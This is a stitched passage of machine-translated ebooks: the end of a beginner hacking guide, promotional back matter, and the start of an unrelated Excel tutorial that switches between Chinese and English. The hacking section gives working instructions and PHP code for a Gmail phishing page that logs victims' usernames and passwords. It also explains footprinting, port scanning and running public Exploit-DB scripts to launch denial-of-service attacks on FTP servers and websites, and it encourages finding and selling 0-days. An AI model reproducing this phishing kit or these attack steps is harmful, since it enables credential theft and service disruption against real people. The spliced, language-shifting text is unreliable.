  - **1.** 用户会定期登录其电子邮件账户。这意味着黑客有大量机会欺骗他的目标。
  - **2.** 电子邮件账户非常有用。大多数情况下，电子邮件账户与其他账户（例如银行账户）相连。因此，只需入侵他的电子邮件账户，你就能获取大量关于用户的信息。

对于本书，让我们假设你想要为 Gmail 创建一个钓鱼网站。

- **2.** 复制官方网页 – 启动 Mozilla Firefox（黑客推荐此浏览器，因为它安全且可定制）并访问实际网站的登录页面。在键盘上按 CTRL+S 创建网页的本地副本。

- **3.** 重命名文件 – 保存网页后，将其名称更改为“index.htm”。索引页面是任何人访问网站时首先显示的网页；因此，你希望目标用户相信他到达了真实网站的索引网页。

- **4.** **创建脚本** – 你应该创建一个计算机脚本来记录用户的登录信息。大多数黑客使用 PHP 脚本语言来完成此任务。下图向你展示了一个记录登录凭据的基本 PHP 脚本。

  启动 Notepad 并输入脚本。将文件保存为“phish.php”。

  ```php
  <?php
  header("Location: https://www.google.com/accounts/ServiceLogin?service=mail&passive=true&rm=false&continue=http%3A%2F%2Fmail.google.com%2Fmail%2F%3Ffu%3Dhtml%26zy%3D1&bsv=1k9b6f94806cy&ltmpl=default&ltmplcache=2");

  $handle = fopen("list.txt", "a");

  foreach($_GET as $variable => $value){
      fwrite($handle, $variable);
      fwrite($handle, "=");
      fwrite($handle, $value);
      fwrite($handle, "\r\n");
  }

  fwrite($handle, "\r\n");
  fclose($handle);

  exit;
  ?>
  ```

- **5.** **创建一个空的 .txt 文件**并将其保存为“list.txt”。

- **6.** **将脚本添加到网页** – 使用 Notepad 打开名为 index.htm 的文件。按 CTRL+F，输入“action”，然后点击“查找下一个”。以下是截图：



在脚本的“form id”部分查找“action”。你会在那里看到一个 URL——删除它并输入“phish.php”。这样做，你就是在指示表单将用户的信息发送到你的 PHP 脚本而不是 Google。

查找写有 **method="post"** 的部分。将“post”替换为“get”，使代码片段变为 **method="get"**。

- **7.** 保存文件并关闭它。

- **8.** 将 HTML 文件上传到网站托管服务 – 托管服务提供商会为伪造的网页提供一个 URL。你可以使用该 URL 进行黑客攻击。

- **9.** 如果你访问该网页，你会发现它看起来与官方 Gmail 登录页面完全一样。该网页会记录输入其中的用户名和密码。它会将信息保存在空的 .txt 文件中。

### 彩虹表

基本上，彩虹表是每个可能字符组合的哈希值的大型列表。要获得哈希值，你必须通过算法运行密码（或字符组合）进行转换。这是一种单向加密：你无法使用哈希值来确定原始数据。大多数网站数据库使用 MD5，一种用于哈希的数学算法，来保护密码。

假设你注册了一个网站。你输入了期望的登录凭据（即用户名和密码）。一旦你点击“提交”按钮，算法就会处理密码并将哈希值存储到网站的数据库中。

由于无法使用哈希值确定密码，你可能会想知道网络如何知道你的密码是否正确或错误。好吧，当你输入登录凭据时，系统会将这些信息通过算法运行。然后，它会将生成的哈希与保存在网站数据库中的哈希进行比较。如果哈希值匹配，你将被登录。

诸如 MD5 之类的数学算法会从简单密码生成复杂的字符串。例如，如果你使用 MD5 加密“cheese”，你会得到：fea0f1f6fede90bd0a925b4194deac11。

根据专家黑客的说法，这种方法比暴力破解方法更有效。一旦你创建了彩虹表（即哈希值列表），你就可以快速破解密码。


## 如何防范这些密码破解技术？

### 社会工程

要阻止“社会工程师”，你必须小心且专注。如果有人给你打电话，而你认为他正在对你使用社会工程策略，就问他一些能证明其身份的问题。

重要提示：一些精英黑客会研究他们的目标。这意味着他们可能通过回答你的问题来“证明自己的身份”。因此，如果你仍然怀疑此人所说的话，你应该与他自称所属部门的负责人交谈，以获取更多信息。

### 肩窥

在输入登录凭据时，确保没有人看到你正在输入的内容。如果你看到可疑人员，就靠近他并练习你的摔跤技巧。好吧，并不是真的。你只需在输入信息时小心谨慎。

### 猜测

为防止这种攻击，不要使用与你的个人信息相关的密码。无论你多么爱你的宠物或配偶，都绝不应将他们的名字用作密码。

### 字典攻击

你可以轻松保护自己免受这种攻击——不要使用字典中能找到的密码。不，用数字替换字母（例如 banana – b4n4n4）并不安全。最好在创建密码时组合字母、数字和特殊字符。

### 暴力破解方法

为防止这种技术，你应当使用包含大量数字和特殊符号的长密码。长而复杂的密码会给“暴力破解者”造成难题。如果黑客尝试数天后仍无法破解你的密码，他可能会寻找另一个目标。

### 钓鱼

要保护自己免受这种技术侵害，你只需检查浏览器地址栏。例如，如果你本应位于 [www.facebook.com](http://www.facebook.com)，但地址栏显示不同的 URL（例如 [www.pacebook.com](www.pacebook.com)、[www.faccebook.com](www.faccebook.com)、[www.focebook.com](www.focebook.com) 等），你就会知道有黑客试图欺骗你。

### 彩虹表

你可以通过创建长密码来防止这种技术。根据精英黑客的说法，为长密码生成哈希表会消耗大量资源。

> “密码破解器”

以下是黑客用于破解密码的程序：

- SolarWinds
- Cain and Abel
- RainbowCrack
- THC Hydra
- John the Ripper

## 第 4 章：如何入侵网络

在本章中，你将学习如何入侵网站和计算机网络。请仔细学习这些材料，因为它将教你与黑客攻击相关的重要理念和技术。

### 足迹调查

“足迹调查”一词是指收集有关计算机网络及其关联公司或组织的数据的过程。这一过程是大多数黑客攻击的初始步骤。足迹调查是必要的，因为黑客在发动任何攻击之前必须了解目标的一切。

以下是你对网站进行足迹调查时需要采取的步骤：

1. 你应当调查网站中使用的姓名和电子邮件地址。如果你计划对目标实施社会工程策略，这些数据可能极其有用。
2. 获取网站的 IP 地址。要获取此信息，请访问此站点并输入目标的 URL。然后点击“Get IP”按钮。几秒钟后，屏幕将显示目标网站的 IP 地址。
3. Ping 目标服务器以检查其当前是否活跃。显然，你不想浪费时间攻击一个“死”目标。精英黑客使用 www.just-ping.com 来完成此任务。基本上，www.just-ping.com 会从全球各地 ping 任何网站。

要使用此工具，只需将目标的 URL 或 IP 地址输入文本框，然后点击“ping!”。截图如下：



网页将显示目标是否活跃。

4. 对网站执行 WHOIS 查询。访问 http://whois.domaintools.com 并输入目标的 URL。屏幕将显示大量有关拥有目标网站的个人/公司/组织的数据。

重要提示：WHOIS 查询为黑客提供不同类型的信息，例如姓名、地址和电话号码。此查询还会提供网站特定的详细信息（例如网站的 DNS、域名的到期日期等）。

### 端口扫描

这是黑客攻击过程的第二阶段。在收集目标信息后，你应当执行“端口扫描”。基本上，“端口扫描”是检测网络中存在的开放端口和监听设备的过程。这意味着你可以利用这一步识别目标的弱点和防御系统。

以下练习将说明端口扫描如何运作：

1. 从此站点下载 Nmap：http://nmap.org/download.html。然后，将该程序安装到你的计算机中。

注意：此软件适用于 Windows 和 Macintosh 计算机。

2. 启动 Nmap 并输入目标的 URL。在本练习中，我们假设你想入侵一个名为 www.target-site.com 的网站。

3. 找到“Profile”部分并点击其下拉按钮。屏幕将显示若干扫描选项。大多数时候，精英黑客会对目标执行快速（且轻量）的扫描。完整版本扫描可能会触发目标的防御系统，因此最好远离那些选项。下拉菜单截图如下：



4. 点击“Scan”按钮并等待结果。示例如下：

| 端口 | 协议 | 状态 | 服务 | 版本 |
| --- | --- | --- | --- | --- |
| 22 | tcp | 开放 | ssh |  |
| 24 | tcp | 开放 | priv-mail |  |
| 53 | tcp | 开放 | domain |  |
| 80 | tcp | 开放 | http |  |
| 111 | tcp | 开放 | rpcbind |  |
| 3306 | tcp | 开放 | mysql |  |

如你所见，Nmap 可以检测目标中存在的端口和服务。

### 横幅抓取

在这一阶段，你将获取有关目标端口和服务的更多信息。黑客使用 telnet 来完成此任务。以下练习将帮助你理解这一阶段：

1. 访问你计算机的终端（如果你是 Mac 用户）或命令提示符（如果你是 Windows 用户）。

重要提示：如果你的操作系统是 Windows Vista，你必须手动安装 telnet。你需要执行以下操作：

1. 转到控制面板并点击“程序和功能”。
2. 点击“启用或关闭 Windows 功能”并选择“Telnet 客户端”。
3. 点击“确定”按钮。
4. 屏幕将显示确认消息。

2. 选择一个开放端口。在本练习中，我们假设你选择了端口 21（即 FTP 端口）。要确定目标使用的 FTP 软件，请使用以下语法：telnet <目标 URL> <你选择的端口号>

对于当前示例，你应运行的命令是：

```
telnet www.target-site.com 21
```

3. 你的计算机将确定所选端口的类型和版本。然后，它会在屏幕上显示该信息。示例如下：



### 寻找弱点

现在你已掌握一些关于该端口软件的信息，可以开始寻找可用的“漏洞利用程序”（即用于入侵计算机/网络的工具）。如果有可用的漏洞利用程序，你可以将其用于目标服务并获得完全控制权。另一方面，如果没有可用的漏洞利用程序，你就必须处理另一个端口。

以下是黑客常用的漏洞利用数据库：

- osvdb
- exploit-db
- SecurityFocus

许多黑客在当前端口没有漏洞利用程序时会寻找另一个端口。然而，你不能假设所有黑客都会这样做。一些黑客，尤其是经验丰富的黑客，会分析目标端口、寻找弱点并创建漏洞利用程序。计算机黑客将新发现的弱点称为“0-day”。这些弱点带来以下好处：

- 没有人知道如何修复该弱点。这意味着在该弱点被发现并修复之前，你可能会入侵无数网站。
- 发现者可能以高价出售该弱点。人们愿意

花费数百（甚至数千）美元只是为了获取最新的漏洞。

- 发现网络弱点并为其生成漏洞利用代码，表明你技术娴熟且知识渊博。其他黑客会将你视为专家。

## 最常见的黑客攻击

在讨论实际的网络渗透之前，让我们先谈谈两种最流行的黑客攻击。

- DoS——这是“拒绝服务”（Denial-of-Service）的缩写。通过这种攻击，黑客想要使服务器瘫痪。这意味着合法用户将无法访问网络或使用受影响的（单个或多个）服务。大多数时候，黑客通过向目标网络发送无休止的数据流来实现这一点。这种策略迫使网络消耗所有可用资源。一旦资源被耗尽，就没有人能够使用网络了。

- 缓冲区溢出——黑客也将这种攻击称为“BoF”。当计算机程序试图将大量数据保存到存储区域（也称为“缓冲区”）时，就会发生缓冲区溢出攻击。由于缓冲区存储容量有限，多余的数据会流向其他区域。发生这种情况时，黑客可能会用恶意代码淹没网络。

## 两种类型的漏洞利用

黑客将漏洞利用分为两类，即：

- 本地漏洞利用——这些漏洞利用要求黑客物理访问目标计算机。通常，攻击者使用此类漏洞利用来提升其在机器或网络上的访问权限。简而言之，你可以使用本地漏洞利用来获得对目标的管理员权限。

- 远程漏洞利用——这些漏洞利用与本地漏洞利用类似。唯一不同的是，黑客可以在不物理访问目标的情况下运行远程漏洞利用；因此，远程漏洞利用比本地漏洞利用更安全。

重要提示：大多数情况下，黑客在攻击中会同时使用两种类型的漏洞利用。例如，你可以使用远程漏洞利用获得普通权限，然后使用本地漏洞利用获得目标的管理员访问权。这种方法让你能够完全控制一台机器或网络。

## 渗透

本节将教你黑客如何渗透他们的目标。

### 编程语言

在练习黑客技能时，你会发现黑客会使用不同的编程语言来创建漏洞利用。以下列表显示了当今最流行的编程语言：

- PHP——如今你会发现很多PHP漏洞利用。使用这种语言编写漏洞利用时，你必须以“<?php”开头，以“?>”结束。假设你想对FTP服务器造成一些临时损害。如果你使用Exploit-DB数据库，你会发现这个漏洞利用：

  https://www.exploit-db.com/exploits/39082/

  以下是攻击目标时需要采取的步骤：

  - 1. 在你的计算机上安装PHP语言。你可以访问此网站免费获取PHP。
  - 2. 从Exploit-DB复制PHP代码并粘贴到文字处理器中。将文件保存为“exploit.php”。
  - 3. 转到漏洞利用代码的第13行，输入目标的IP地址。将修改后的文件保存到计算机的PHP目录中（即包含PHP .exe文件的目录）。
  - 4. 打开计算机的命令提示符。然后，运行CD（即更改目录）命令并指定PHP目录的位置。
  - 5. 输入“php exploit.php”并按回车键。
  - 6. 你的计算机将向目标发起DoS攻击。攻击只会在你关闭命令提示符后停止。
  - 7. 测试攻击效果。为此，请访问目标网站并点击标签/按钮。如果攻击成功，网站将卡顿并出现异常长的加载时间。过一段时间，网站可能会完全下线。

- Perl——这种语言和PHP一样简单易用。要使用这种编程语言，你应该：

  - 1. 访问此网站：http://www.activestate.com/activeperl。然后，下载并安装正确的Perl版本。
  - 2. 寻找一个你可以使用的漏洞利用。在本书中，假设你想使用这个漏洞利用攻击一台WinFTP服务器：https://www.exploit-db.com/exploits/36861/
  - 3. 通过输入所需信息（例如目标的URL、要攻击的端口等）修改代码。然后将其复制到文本文件中，并将文档保存为“exploit.pl”。
  - 4. 打开命令提示符。使用“更改目录”命令指定Perl文件的位置。
  - 5. 输入“perl exploit.pl”以运行漏洞利用。程序将对你的目标发起DoS攻击。与前面的例子一样，此漏洞利用只会在你关闭命令提示符窗口后停止。

## 结论

再次感谢你下载本书！

希望本书能够帮助你学习黑客基础知识。

下一步是练习你的黑客技能并编写自己的漏洞利用。这样一来，你很快就会成为一名精英黑客。

最后，如果你喜欢这本书，我想请你帮个忙，你愿意在亚马逊上为这本书留下评论吗？不胜感激！

**点击此处，在亚马逊上为本书留下评论！**

另外，请务必订阅我的技术和编程通讯，获取免费书籍并了解更多编程知识。点击此处。

谢谢，祝你好运！

**_点击此处获取使用Bluehost设置Wordpress网站的分步说明。_**

## 额外福利：从我这里获取更多免费书籍！

感谢阅读我的书！我希望你从中获得了超值收获。为了感谢你，我将赠送你更多免费书籍以及与编程和技术相关的信息！

只需点击下面的链接，在我的网站上输入你的电子邮件地址！

如果你真的想要提升编程技能，你将得到的每一样东西都会对你有所帮助。我将提供：

- 更多我写的书
- 我如何以创纪录的时间学会编程
- 关于我最爱的编程相关产品的信息
- 以及更多！

[点击此处获取所有这些信息！](#)

如果你还没访问过，一定要去看看我的新网站 [KindleBookSpot.com](KindleBookSpot.com)。这是一个我一直在打造的新项目，我真的希望它对读者有价值。创建这个网站是因为我想给大家提供一个更简单的方式，在一个地方就能找到最热门的打折kindle电子书。以下是我网站的一些具体内容：

- 畅销免费kindle电子书列表
- 打折的小说和非小说类书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新兴作家在成为畅销书作家之前推广新书的地方。所以如果你想推广自己的书，请查看我的网站 [KindleBookSpot.com](KindleBookSpot.com)。

希望这个网站对你有用，希望能在那里见到你！

[订阅我们在KindleBookSpot不断壮大的社区，以便在最佳书籍打折或免费时收到通知。](Subscribe to our growing community at KindleBookSpot to receive notifications when the best books are discounted and free.)

# Excel训练营

*学习Microsoft Excel基础知识*

**更多折扣书籍请访问 [kindlebookspot.com](http://kindlebookspot.com)**

## 引言

我想感谢并祝贺你下载了“*两周学会Microsoft Excel基础*”这本书。

本书包含了掌握与MS Excel相关的基本概念、技巧和原则的经过验证的步骤和策略。

本电子书旨在教你Excel——当今世界领先的电子表格程序——的基础知识。通过阅读本材料，你将能够轻松地使用任何Excel版本。此外，本书不包含任何无关话题。这意味着每一页都包含有价值的信息，能在短短14天内将你变成一名高效的Excel用户。

再次感谢你下载本书，希望你喜欢！

## 在我们开始之前……额外福利：从我这里获取更多免费书籍！

感谢阅读我的书！我希望你从中获得了超值收获。为了感谢你，我将赠送你更多免费书籍以及与编程和技术相关的信息！


Simply click on the link below and enter your email address on my website!

Everything you will get will be useful to you if you’re serious about changing your programming skills. I will be offering:

- More Books By Me
- How I was able to learn programming in record time
- Info On My Favourite Products Related To Programming
- And Much More!

**More details at bottom.**

## Chapter 1: Excel – The Basics

Excel is an excellent spreadsheet program that allows you to create tables containing graphs and computations. When using this program, your computations can range from simple additions to complicated functions and math models.

In this chapter, you'll learn about the basics of Excel. This material will teach you the ideas and principles related to this powerful spreadsheet application.

### Excel – A Windows Program

Microsoft, one of the leading software manufacturers today, created Excel as a part of its "Office Suite." Basically, MS Excel (i.e. Microsoft Excel) is a program that uses the well-known Windows graphical interface. Once activated, Excel will sit on a separate "window" – the large square that encloses the program components.

Windows operating systems (e.g. XP, Vista, 7, etc.) have built-in features that allow you to customize the look of an Excel window. These features are:

- Border – This is the box that encloses the Excel window when it's not maximized. If you'll place your mouse over a border, it will become a two-headed arrow – this arrow allows you to resize the Excel window.
- Title Bar – This is the colored section at the top of any Excel window. This feature shows the name of the program you are using. If the Excel window is maximized, the title bar will also display the name of your current workbook.

You may use the title bar to relocate an Excel window. Just make sure that the window is not maximized. Click on the title bar and drag it to your preferred location.

- Maximize Button – When accessing a workbook, Excel will show you two windows: (1) a program window and (2) a workbook window. You may maximize these windows to take full advantage of the on-screen space available to you. If you want the Excel program to cover the entire screen, click on the maximize button found at the top-right corner of your screen. To make sure that the workbook fills the Excel window, click on the maximize button located inside the Excel program.

- Minimize Button – This button allows you to use other computer programs without exiting MS Excel. Click on the minimize button to turn Excel into a small icon on your Desktop’s taskbar. After doing this, you will be able to launch/access other files or programs you need. Once you are ready to work on Excel again, just click on the Excel icon on the taskbar.

Workbook windows also have this button. You can use that to manage multiple workbooks easily.

- Restore Button – You can only use this button if the window is maximized. After clicking on a restore button (either in a program or workbook window), the window will be reduced in size. That means you will be able to adjust the window’s size and location.

- Close Button – Use this button to close a window.

### Menus and Ribbons

The latest versions of MS Excel don’t have menus. Instead of clickable menus, Excel uses Ribbons to display available options to its users. This eBook is based on Excel 2010, so you will be using ribbons while reading this manual.

### What is a Ribbon?

A ribbon is a tab that displays various commands available to the user.

### The Different Types of Ribbons

The following list shows three ribbons that you’ll encounter while using Excel:

- HOME – This ribbon contains the basic formatting commands.
- INSERT – This ribbon allows you to insert different objects into your spreadsheets.
- FILE – This serves as the primary ribbon of MS Excel. Use this ribbon to create new workbooks, save changes, or open existing files.







### Using a Ribbon

Ribbons use clickable icons to display options and commands. By placing the mouse on an icon, you’ll see helpful information about that particular command or option. Obviously, clicking on the icon applies its effect on the program or active workbook.

Some icons have dropdown arrows – clicking on these arrows will display additional options related to the icon. A good example for this is the Shapes icon: this icon allows you to insert various shapes into your workbooks. Here’s a screenshot:



### Dialog Boxes

Inside each ribbon, the icons are divided into “Groups.” These groups have names, which means you can easily find what you need just by reading some words on the screen. Some groups have an arrow – this arrow is known as the “Dialog Box Launcher.” Clicking on this arrow displays a dialog box. Here’s an example:



## Chapter 2: Working with Data

### Moving

Since Excel offers a wide working area, you have to know how to place your data in different locations. You can move around Excel in two ways:

- Using the mouse – This option is ideal if you are working with small distances. Just click on the cell you want to work on and start typing.
- Using the keyboard – Excel allows you to use the arrow keys of your keyboard. Press the arrow keys until you reach your preferred cell. In this option, you may enter data into any cell without using the mouse.

### Scrolling

Just like any program, MS Excel has scrollbars. You may use these scrollbars to view different parts of your workbooks. Here’s a screenshot:



Scrollbars require you to use your mouse. You may click on the left/right or up/down arrows to view certain cells. Alternatively, you may drag the bars to reach certain parts of your workbook.

### Excel Worksheets

### How to Move Between Worksheets

The system creates three sheets each time you generate a new workbook. These sheets are named “Sheet1,” “Sheet2,” and “Sheet3.” If you want to add a new sheet into your workbook, just look at the bottom of your screen and click on the “Insert Worksheet” option. Here’s a screenshot:


As you can see, sheets are displayed as tabs at the bottom of the program. In order to access a specific sheet, just click on its tab.

### How to Move Inside a Worksheet

In Excel, you can hit F5 on your keyboard to reach a particular cell. Pressing the F5 key opens a dialog box where you can specify your desired cell.

### How to Enter Data

To enter your data into a cell, just position the cursor on the targeted cell and type the information. Excel allows you to enter up to 32,000 characters into a single cell.

Excel programs accept letters and numbers. Additionally, these programs show data in different alignments – left for letters; right for numerals. However, you may use other alignments if you need to.

### How to Cancel Data Entries

In some cases, people mistype entries into cells. Excel allows you to cancel mistyped entries, provided you haven’t pressed the Enter key on your keyboard.

To cancel a mistyped entry, just click on the “X” near the Formula Bar. Here’s a screenshot:



Alternatively, you may cancel an entry by hitting the Esc key of your keyboard.

### How to Modify an Unconfirmed Entry

Excel allows you to edit unconfirmed entries. If you want to make a simple adjustment on an entry (e.g. delete/replace a letter), just double-click on the cell that contains it. Then, hit the backspace key or enter the right characters.


## 自动完成功能

Excel 提供“AutoComplete”——一项功能，可在输入数据时节省时间和精力。基本上，Excel 会记住你在工作簿中输入的数据。然后，每当你在新单元格中输入时，它会将这些条目作为建议提供。这一过程类似于你在进行在线搜索时 Google 显示的建议。以下是截图：



### 如何使用此功能

- 1. 突出显示列中的下一个空白单元格。
- 2. 开始输入数据。MS Excel 会检查新条目是否与同一列中的任何项目相似。如果是，程序将自动完成该条目。
- 3. 如果要接受建议，请按 Enter 完成操作。
- 4. 如果需要输入新数据，只需忽略 Excel 的建议并继续输入。完成后按 Enter。

### 如何从列表中选择

在某些情况下，Excel 会显示多个建议。这种情况发生在用户处理相似条目时。从建议列表中选择非常简单易行。你可以通过两种方式进行：

- 使用键盘：
  - 1. 使用方向键突出显示正确的单元格
  - 2. 同时按 ALT 键和“向下”箭头键。此操作将显示可能的条目列表。
- 使用鼠标：
  - 1. 右键单击单元格
  - 2. 选择“PICK FROM LIST”
  - 3. 选择需要输入的项目

重要提示：只有当你的条目是连续的（即中间没有间隔）时，才能使用自动完成。如果两个条目之间存在间隔，Excel 将对这些项目禁用自动完成功能。

### 如何禁用自动完成功能

在某些情况下，自动建议可能会让你困惑（甚至感到沮丧）。如果你不喜欢看到这些建议，你需要执行以下操作：

- 访问“FILE”选项卡并点击“Options”
- 进入“ADVANCED”并取消选中“ENABLE AUTOCOMPLETE FOR CELL VALUES”复选框

## 如何编辑单元格

在 Excel 中，你有不同的更改或删除数据的选项。这些选项如下：

### 输入会覆盖突出显示的条目

此功能适用于所有 Microsoft Office 程序。它确保你输入的字符会替换突出显示的条目。例如，如果你突出显示“Apple”并输入“Banana”，第一个条目将被第二个条目替换。

此功能非常有用，尤其是在需要对存储的数据进行快速/简单更改时。

使用此功能需要执行以下操作：

- 1. 使用鼠标或方向键突出显示正确的单元格
- 2. 输入新数据（开始输入后，之前的条目将消失）
- 3. 按 Enter 完成操作

### 编辑模式

有时不需要覆盖整个单词。例如，你只需要从条目中添加或删除一个字符。Excel 通过“Edit Mode”解决了这个问题——一种允许你快速轻松编辑数据的书写模式。你可以通过以下方法激活此模式：

- 在单元格内编辑：
  - 1. 双击需要编辑的单元格。
  - 2. 使用方向键将光标放置在正确的位置。
  - 3. 进行必要的更改并按“Enter”。
- 通过公式栏编辑：
  - 1. 突出显示要修改的单元格。
  - 2. 当目标单元格的内容出现在那里时，点击公式栏。
  - 3. 根据需要编辑条目并按“Enter”键。

## 如何选择单元格

如果需要编辑影响多个单元格的内容，你必须先选择单元格。

选择一组单元格时，MS Excel 会通过将其设为白色来显示活动单元格——其他单元格为黑色。你可以通过以下方法在工作表中选择特定单元格：

- 使用鼠标 – 使用鼠标选择单元格时，你必须确保 Excel 显示“selection pointer”（即白色“+”符号）。

下表显示了你可以使用鼠标的选择技术：

| 选择 | 你必须 |
|---|---|
| 特定单元格 | 单击单元格或使用方向键。 |
| 一组单元格 | 单击初始单元格并将鼠标拖动到组中的最后一个单元格。 |
| 工作表中的所有单元格 | 点击标有“Select All”的按钮 |
| 不连续的单元格 | 选择第一个单元格，按住 CTRL 键并选择剩余单元格。 |
| 一长串单元格 | 突出显示组的第一个单元格，按住 Shift 键，然后单击组的最后一个单元格。 |
| 整行 | 单击行号（即屏幕最左侧的数字）。 |
| 整列 | 单击列字母（即工作表顶部的字母）。 |
| 相邻列/行 | 选择第一行/列，按住 Shift 键，然后单击最后一行/列。 |
| 不相邻的行/列 | 突出显示第一行/列，按住 CTRL 键并单击剩余的行/列。 |

- 使用键盘 – 键盘在单元格选择方面提供了出色的控制。以下是你可以在 Excel 中使用的键：

| 选择 | 你必须 |
| --- | --- |
| 两个相邻单元格 | 突出显示第一个单元格，按住 Shift 键，然后按适当的箭头键。 |
| 当前单元格到工作表边缘 | 按住 CTRL 和 Shift 键。然后，按正确的箭头键。 |
| 整列 | 突出显示要选择的列中的一个单元格，按住 CTRL 键，然后按空格键。 |
| 整个工作表 | 按住 CTRL 和 A 键。 |
| 当前区域 | 按住 CTRL 键并按星号（来自键盘的数字键盘）。 |

## 如何清除数据、批注和格式

你必须清除单元格才能删除其内容。Excel 提供多种清除单元格的方法——应使用的方法取决于你需要删除的内容。你可以使用键盘或 Excel 功能区删除单元格中的数据。这种方法简单易行，但只能删除文本、日期、数字和公式。

重要提示：删除格式化的单元格的内容会保留格式不变。这意味着你不必在同一单元格上重新应用格式。你只需输入新数据（如果有）。

### 清除单元格内容

- 突出显示需要操作的单元格/单元格。
- 右键单击单元格或单元格组。
- 左键单击“Clear Contents”选项。

以下是截图：



### 清除格式

- 1. 选择正确的单元格/单元格。
- 2. 访问“Home”并点击“eraser”。
- 3. 从下拉菜单中选择“Clear Formats”。

以下是截图：

## 第 3 章：公式和函数

### Excel 中的公式

在处理电子表格时，你需要对值进行加、减、乘、除运算。这意味着每个电子表格程序都必须能够接受、引用和处理数值。然而，在 Excel 中，数学公式作用于单元格，而不是值本身。这是因为无论类型如何，值都容易发生变化。如果公式所需的值发生非计划的更改，公式可能会被破坏。

例如，你将一些数字输入到 B1 和 B2 中。由于你使用的是 Excel，你不会直接输入数字来应用数学公式。你只需指定包含它们的单元格以及要应用的数学运算。以下是示例：“B1 + B2”。在这里，即使单元格的值发生变化，Excel 仍会给出两个单元格的总和。这种自动重新计算是电子表格程序流行的主要原因之一。

重要提示：确保你的所有公式都有“=”（即等号）。

以下是你可以在 MS Excel 中使用的运算符：

| 运算符 | 数学运算 |
|---|---|
| + | 加法 |
| - | 减法 |
| / | 除法 |
|  |  |

| * | 乘法 |
|---|---|
| ^ | 幂运算 |

## 输入公式

你必须在希望显示结果的单元格中输入公式。例如，如果你希望 B1 和 B2 的和显示在 B3 中，就应将公式输入到 B3。公式将如下所示：" =B1+B2 " 。

输入公式时，你应该：

- 1. 高亮你要使用的单元格。
- 2. 输入“ = ”（即等号）。
- 3. 输入公式。
- 4. 按 Enter 键完成操作。

## 公式中的错误

人都会犯错。这意味着你偶尔会从 Excel 计算中得到错误结果。这些错误结果通常源于公式中的错误（例如，你使用了“ + ”而不是“ / ”）。你可以使用上一章介绍的编辑方法来更正公式。

修改公式需要执行以下操作：

- 1. 高亮包含公式的单元格，然后双击它。
- 2. 进行必要的更改。
- 3. 按 Enter 键。

## 在多个单元格中应用公式

有些情况要求你在不同的单元格组中应用公式。例如，你需要对单列中的所有单元格执行加法。一遍又一遍地输入相同内容会让人精疲力竭，因此 Excel 提供“填充公式”功能真是件好事。

基本上，此功能会从某个单元格复制公式并将其应用到其他单元格。这意味着你无需重复输入即可完成工作簿。

要使用此功能，你需要：

- 高亮包含公式的单元格。
- 将鼠标指向该单元格的左下角。此操作会将白色十字变成黑色十字。
- 在目标单元格（即你希望应用公式的单元格）上拖动鼠标。Excel 将高亮这些单元格。
- 一旦 Excel 高亮了所有需要的单元格，松开鼠标左键。
- Excel 会将第一个单元格中的公式应用到你所选的单元格。

## Excel 中的函数

### 基本函数

既然你已知道如何编写和复制公式，就可以通过 MS Excel 快速轻松地执行计算。然而，有些计算过于复杂或涉及许多单元格。因此，输入数据可能既枯燥又耗时。

例如，你可以创建一个公式来求 4 个单元格组成的一列之和：

```
`=A1+A2+A3+A4`
```

这种方法效果不错。但如果你必须处理 500 个单元格，可能会因沮丧而把头发扯掉。当然，没有人想手动引用这些数字。

Excel 可以帮助你应对这种情况。怎么做？这个强大的电子表格程序提供了大量预装公式（称为“函数”）。你是否需要在单个操作中引用数百个单元格？没问题。使用 Excel 函数……瞧！程序会替你高亮这些单元格。为帮助你理解函数，我们用一个简单示例：

```
`=SUM(A1:A6)`
```

所有 Excel 函数都遵循上面给出的语法。与基本公式一样，函数以等号开头。等号后面是函数名（即本例中的“SUM”）和参数（即括号内的单元格）。基本上，函数名指示你需要做什么。而参数则告知 Excel 你需要处理哪些单元格。

如前所述，Excel 提供了大量函数。其中一些最有用的函数包括：

- SUM – 你可以使用此函数将数值相加。要激活它，你应该：
- 1. 选择一个空白单元格并输入等号（即“ = ”）。
- 2. 输入“ SUM( ”。
- 3. 高亮包含要相加数值的单元格。
- 4. 输入“ ) ”并按 Enter 键。

- AVERAGE – 此函数允许你求不同值的平均值。要激活此函数，需要执行以下操作：
- 1. 在空白单元格中输入等号。
